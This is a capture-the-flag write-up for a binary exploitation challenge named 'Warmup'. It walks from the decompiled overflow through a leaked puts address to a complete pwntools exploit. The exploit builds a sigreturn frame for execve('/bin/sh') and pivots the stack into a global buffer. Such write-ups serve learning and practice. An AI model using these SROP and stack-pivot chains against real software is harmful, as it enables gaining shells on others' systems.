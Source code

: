 ## PWN - Warmup

This challenge was really fun. It might have been easier for some more experienced people but I am fairly new and had a lot of headache near the end.

This challenge started off fairly straight-forward since from the first glance into the disassembly code you can see that it would be a stack pivot problem since it only gives you 16 bytes to work with.

``` c
undefined8 main(void)

{
  char local_48 [64];
  
  helper();
  printf("%p\n",puts);
  printf("name>> ");
  fgets(name,0x200,stdin);
  printf("alright>> ");
  fgets(local_48,0x58,stdin);
  puts("okey");
  return 0;
}
```

So first off I thought I would write a ret2libc ROP chain into the "name" variable and then use the `pop rsp ; ret` gadget I found in the binary for a stack pivot.

Now the only problem here is, there is only 512 allocated bytes into the `name` buffer, which will not be enough. But I didn't know that until a few hours later when I realized the reason `system` was breaking was because it was setting the stack pointer way above where it was intended. Below is the assembler code before and at the point it breaks. Here you can see the stack pointer being set a long way further up and the point where the exploit breaks since it is trying to write into an unwriteable area in memory.

```
   0x00007f4b0993f92e <+46>:    sub    rsp,0x388
   0x00007f4b0993f935 <+53>:    mov    rax,QWORD PTR fs:0x28
   0x00007f4b0993f93e <+62>:    mov    QWORD PTR [rsp+0x378],rax
   0x00007f4b0993f946 <+70>:    xor    eax,eax
=> 0x00007f4b0993f948 <+72>:    mov    DWORD PTR [rsp+0x18],0xffffffff
```

### Solution

So if there is not enough space to call `system` then I decided to create an SROP chain, using gadgets from libc. But first I must leak the libc PIE offset. Thankfully the challenge gives you the address of `puts` so the hard work is already done for you.

``` python
puts = io.recvuntil(b"\n")
puts = int (puts, 16)
offset = puts - libc.symbols["puts"]
```

I will also need to gather all the gadgets needed for this.

``` python
pop_rsp = p64 (0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)
```

Now with this I can create the SROP chain.

``` python
frame = SigreturnFrame()
frame.rax = 59 # execve syscall
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)
```

And now all I must do is pivot the stack into `name` with the overflow.

``` python
target_buf_start = p64(0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start
```

### Final solution

``` python
from pwn import *

io = process ("./warmup")
file = context.binary = ELF("./warmup")
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")


# GADGETS

rop = ROP(libc)

puts = io.recvuntil(b"\n")
puts = int(puts, 16)
offset = puts - libc.symbols["puts"]

pop_rsp = p64(0x40118e) # push rbp ; mov rbp, rsp ; pop rsp ; ret
pop_rdi = rop.find_gadget(["pop rdi", "ret"])[0]
syscall = rop.find_gadget(["syscall"])[0]
pop_rax = rop.find_gadget(["pop rax", "ret"])[0]
binsh = p64 (next(libc.search(b"/bin/sh")) + offset)


# SROP

frame = SigreturnFrame()
frame.rax = 59
frame.rdi = next(libc.search(b"/bin/sh")) + offset
frame.rsi = 0
frame.rdx = 0
frame.rip = syscall + offset

srop = p64(pop_rax + offset) + p64(0xf) + p64(syscall + offset) + bytes(frame)


# PIVOT SECTION

target_buf_start = p64(0x404060)

overflow = b"A"*64 + target_buf_start + pop_rsp + target_buf_start

io.sendline(srop)
io.sendline(overflow)

io.interactive()
```
